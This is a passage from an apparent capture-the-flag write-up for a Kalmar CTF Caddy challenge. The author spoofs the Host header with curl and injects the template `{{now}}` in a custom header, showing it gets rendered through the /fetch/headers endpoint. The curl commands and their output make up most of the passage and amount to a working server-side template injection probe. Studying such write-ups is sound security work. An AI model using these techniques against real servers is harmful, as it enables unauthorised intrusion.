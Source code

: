 We are now halfway there!

### We are not halfway there

Turns out that `1 != 1` is pretty hard to get around... So we need to find another way!

I realised something interesting instead using `/headers`. The templating engine uses `{{}}` to designate templates. And if `/fetch` is used are templates rendered again? It all relies on if our headers make it through.

A common Caddy variable is `{{now}}` which just returns the current time.

Firstly I try with just `/headers`:
```bash
$ curl --resolve public.caddy.chal-kalmarc.tf:443:172.65.208.191 \
     -H "Host: private.caddy.chal-kalmarc.tf" -H "idea: {{now}}" \
     https://public.caddy.chal-kalmarc.tf/headers
{
  "Accept": [
    "*/*"
  ],
  "Idea": [
    "{{now}}"
  ],
  "User-Agent": [
    "curl/8.7.1"
  ]
}
```

Let's now try through `/fetch/headers`:
```bash
$ curl --resolve public.caddy.chal-kalmarc.tf:443:172.65.208.191 \
     -H "Host: private.caddy.chal-kalmarc.tf" -H "idea: {{now}}" \
     https://public.caddy.chal-kalmarc.tf/fetch/headers
{
  "Accept": [
    "*/*"
  ],
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "1"
  ],
  "Idea": [
    "2025-03-10 13:51:38.043763726 +0000 UTC m=+217394.911287425"
  ],
  "User-Agent": [
    "curl/8.7.1"
  ]
}
```
